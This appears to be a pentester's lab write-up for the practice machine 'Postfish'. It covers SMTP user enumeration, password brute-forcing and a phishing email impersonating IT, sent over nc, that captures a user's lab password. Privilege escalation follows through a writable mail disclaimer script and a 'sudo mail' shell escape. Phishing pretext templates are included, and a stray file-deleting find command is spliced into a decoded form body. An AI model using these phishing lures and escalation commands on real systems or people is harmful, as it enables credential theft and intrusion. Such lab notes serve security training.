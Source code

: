 # Postfish Notes

## Data 

IP: 192.168.173.137
OS: Ubuntu Focal 20.04
Arch:
Hostname:
DNS:
Domain:  postfish.off/
Machine Purpose: 
Services:
Service Languages:
Users:
Email and Username Formatting:
Credentials:

## Objectives

`\#\# Target Map ![](Postfish-map.excalidraw.md)`

#### Machine Connects to list and reason:

[[]] - Reason X

## Data Collected

#### Credentials
```
```

#### HUMINT


#### Solution Inventory Map


#### Todo 


#### Timeline of tasks complete
      

redirect http://postfish.off/

What
```html
<p>Powered by <a href="[https://www.w3schools.com/w3css/default.asp](https://www.w3schools.com/w3css/default.asp)" target="_blank">w3.css</a></p>
```

team.html - Users
```
Claire Madison
Mike Ross
Brian Moore
Sarah Lorem
```


smtpuserenumwithpentestmonkey.png


checkerror.png

requiresphishing.png

Will be twinned with [[Attended-Helped-Through]], and other phishing boxes for phishing-for-2-weeks-24-7 banaza

Hydra to testing top 2000 on all four valid emails
2000krockyouonvalidemailsfailed.png

Got the write for this box as I have never done any phishing so I am bound not know a large amount of the considerations and methodology. At an initial glance of the Walkthrough - department emails 

departments.txt 
```
hr@postfish.off
it@postfish.off
sales@postfish.off
legal@postfish.off
```


```bash
smtp-user-enum -M RCPT -U departments.txt -t postfish.off
```

departmentemailsexist.png

user:password combos before brute force
```
hr:hr, it:it, sales:sales, and legal:legal
```

Read the emails like its a video game and you had read the email to progress...
emailreading.png

Check other services for password reuse - ssh password for sales is not sales

- Phishing
	- Can you impersonate the IT department or organisational authoritative account to get?
		- Passwords or password resets?
			- *Register for this new service - you just need to use you account details to finish the registration process and read Terms and Conditions*
			- *Due to recent an up tick in attempts against your account the IT department requires you to change you password to a great level of complexity...*
		- Intelligence?
			- Information additive to further phishing progress at a later stage - how will it fit or can it be frame to further impersonate an individual?

The Walk Through demonstrates a failed phishing campaign  by setting up a registration page then it progresses to spear-phishing Brian Moore. It then discusses manual approach to discovery of the organisational email formatting conventions. I already discovered those with `smtp-user-enum`

Sending Emails without [[SWAKS]]
```c
// connect
nc $address 25
// HELLO THERE
helo hacker
// response code
MAIL FROM: it@postfish.off 
// response code
RCPT TO: brian.moore@postfish.off // receipiant
// response code
DATA // Send some data !
// response code
Subject: Password Reset

Hey Brian,

Unfortunately we had a problem during our migration and we had to rebuild our database.
Please register at http://192.168.45.178/ and let us know if you encounter any problems.

Regards,
IT
.
// Make sure you use the a single `.` on the final line to close DATA 
// response code
QUIT // terminates sessions
```

Use `nc` not `python3 -m http.server` woops, but tanks to Brian and some URL decoding
thanksBrian.png

```
first_name%3DBrian%26last_name%3DMoore%26email%3Dbrian.moore%postfish.off%26username%3Dbrian.moore%26password%3DEternaLSunshinE%26confifind /var/mail/ -type f ! -name sales -delete_password%3DEternaLSunshinE
```

cyberchefurldecode.png

`brian.moore : EternaLSunshinE`


wearebrian.png

There is no sudo privileges for Brian and there are four other users
nosudofourotherusers.png



Primarily box checks - we as well as we can read everyone else directories! 
boxchecks.png

saleshasmaildir.png

rootdir.pngwehi

routesfirewallsanddns.png

nonexistentandactualusers.png

My CTF instincts are press me for the second phish or great privileged user there is no script logging other in
checkifwemaybephishinganotheruser.png

But there are no crons
nocrons.png


unattendwhat.png

salesmail.png

www-baitwtf.png


disclaimerfile.png

rootsshbadmkay.png


nextlevelsomeday.png


pwnkitandpolkit.png


scriptseemslikeitspartofautomateprocess.png


Making sure to append Linux to the dorking the `man trap`  .. 
https://man7.org/linux/man-pages/man1/trap.1p.html

trapcmdonlinux.png

Running out of time I was on the correct track
```
find / -group filter 2>/dev/null
```

Added the shell because I stepped back after yesterday mind blank I did not want to fumble something so easy
addedshell.png
but I did not return a shell even though though root is running this every minute. Then I *The next time a user receives a message, the disclaimer script should be executed. Let's start a Netcat listener to receive the reverse shell.* 
- Always research the file and service provider. `disclaimer.sh` must have some check to run but no execute!...

pspylikeabrian.png


moreactiononpspy.png

No shell because the script gets reset!!

noshell.png

I god the mistake
violatingthescriptbecauseitsoverwritten.png


tomuchgoof.png


weareFILTER.png

We can use mail without a password and suo
https://linux.die.net/man/1/mail

[Mail - GTFObin for sudo mail ]
```
sudo mail --exec='!/bin/sh'
```


root.png

The disclaimer reset script:
disclaimerscript.png

Poor Brian stood no chance with this root activity...
themailscripttoemailthepassword.png